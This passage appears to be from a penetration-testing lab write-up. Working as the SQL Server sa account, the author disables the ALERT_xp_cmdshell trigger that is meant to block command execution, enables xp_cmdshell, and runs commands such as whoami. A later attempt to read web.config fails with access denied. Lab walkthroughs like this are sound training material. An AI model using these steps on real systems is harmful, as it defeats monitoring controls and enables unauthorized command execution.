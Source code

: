 
#### Disable Trigger

These triggers are a policy put in place to alert and block attempts to enable
and use `xp_cmdshell`. The problem is, as sa, I can [disable these
triggers](https://www.mssqltips.com/sqlservertip/2987/can-i-stop-a-system-
admin-from-enabling-sql-server-xpcmdshell/). Triggers are stored in
`sys.server_triggers`:

    
    
    SQL> select name from sys.server_triggers;
    name
    ------------------------------   
    ALERT_xp_cmdshell 
    

Now I just need the [syntax to disable
it](https://blog.netspi.com/maintaining-persistence-via-sql-server-
part-2-triggers/#triggerremoval):

    
    
    SQL> disable trigger ALERT_xp_cmdshell on all server
    

Now I can enable `xp_cmdshell`, and it works:

    
    
    SQL> enable_xp_cmdshell
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
    SQL> xp_cmdshell whoami
    output                                                                             
    ------------------------------   
    nt service\mssql$poo_public                                                        
    NULL
    

### Escalate to poo_public01

#### Machine Enumeration as mssql$poo_public

mssql$poo_public doesn’t have access to much. There is a home directory, but
it is empty. The user has some access to the web directory, but the most
interesting file, `\inetput\wwwroot\web.config` returns access denied:

    
    
    SQL> xp_cmdshell type C:\inetpub\wwwroot\web.config
    output
    ------------------------------
    Access is denied.
    NULL   
    

It’s clear that I need to find more access.
